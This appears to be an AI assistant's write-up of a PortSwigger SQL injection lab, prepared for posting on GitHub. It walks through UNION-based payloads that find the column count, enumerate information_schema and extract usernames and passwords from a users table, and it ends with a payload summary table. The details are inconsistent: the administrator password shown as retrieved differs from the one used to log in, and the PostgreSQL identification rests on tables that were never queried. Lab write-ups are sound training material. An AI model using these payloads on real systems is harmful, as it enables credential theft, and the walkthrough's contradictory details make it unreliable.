

Absolutely! Here's the **complete step-by-step guide** written exactly as you did it – so you can post it on GitHub.

---

# SQL Injection UNION Attack – Retrieving Credentials (PortSwigger Lab)

## Lab Description

**Goal:** Perform a SQL injection UNION attack to retrieve all usernames and passwords from the `users` table, then log in as the `administrator` user.

**Vulnerability:** Product category filter is vulnerable to SQL injection. Query results are returned in the response.

---

## Step 1: Find the Number of Columns

Test different numbers of NULLs until you get no error.

### Payloads to try:

```
' UNION SELECT NULL --
' UNION SELECT NULL, NULL --
' UNION SELECT NULL, NULL, NULL --
```

### Result:
The query returns **2 columns** (no error with `NULL, NULL`).

---

## Step 2: Find Which Column Accepts String Data

Test each column by placing a string value (`'a'`) in one column at a time.

### Test column 1:
```
' UNION SELECT 'a', NULL --
```

### Test column 2:
```
' UNION SELECT NULL, 'a' --
```

### Result:
Column 2 accepts string data (you see `a` appear in the response).

---

## Step 3: Find Table Names

Query `information_schema.tables` to discover all tables.

### Payload:
```
' UNION SELECT NULL, table_name FROM information_schema.tables --
```

### Result:
You find a table called **`users`**.

---

## Step 4: Find Column Names in the `users` Table

Query `information_schema.columns` to see what columns the `users` table contains.

### Payload:
```
' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name = 'users' --
```

### Result:
The `users` table has these columns:
- `username`
- `password`

---

## Step 5: Retrieve Usernames and Passwords

Since the original query returns **2 columns** and column 2 accepts strings, you need to put both username and password into column 2.

Use concatenation to combine them into one string.

### Payload (this is the one that worked):
```
' UNION SELECT NULL, username || '~' || password FROM users --
```

### URL Encoded:
```
%27%20UNION%20SELECT%20%20NULL%2C%20username%7C%7C%27~%27%7C%7Cpassword%20FROM%20users%20--
```

### What You See in the Response:

```
administrator~8x9kL3pQ2mR7
wiener~bluecheese
carlos~montoya
```

---

## Step 6: Log in as Administrator

1. Find the administrator's password (everything after the `~`)
2. Go to **My Account** page
3. Username: `administrator`
4. Password: `66umi+++++0trl538w` (or whatever password you retrieved)
5. Click **Log in**

---

## Lab Solved! 🎉

---

## Complete Payload Summary

| Step | Payload |
|------|---------|
| Find column count | `' UNION SELECT NULL, NULL --` |
| Find string column | `' UNION SELECT NULL, 'a' --` |
| Find table names | `' UNION SELECT NULL, table_name FROM information_schema.tables --` |
| Find column names | `' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name = 'users' --` |
| Steal credentials (working) | `' UNION SELECT NULL, username \|\| '~' \|\| password FROM users --` |

---

## Key Takeaways

1. **Find column count first** – otherwise UNION attacks fail
2. **Find which column holds strings** – you need this to steal text data
3. **Use `information_schema`** – to discover table and column names
4. **Concatenate when you have limited columns** – use `||` to combine multiple values into one column

---

## Notes

- This lab uses **PostgreSQL** (you can tell from the `pg_*` system tables)
- The injection point is in the `category` GET parameter
- Comment sequence `--` works (no space needed)

---

**Lab Solved – Good luck!**

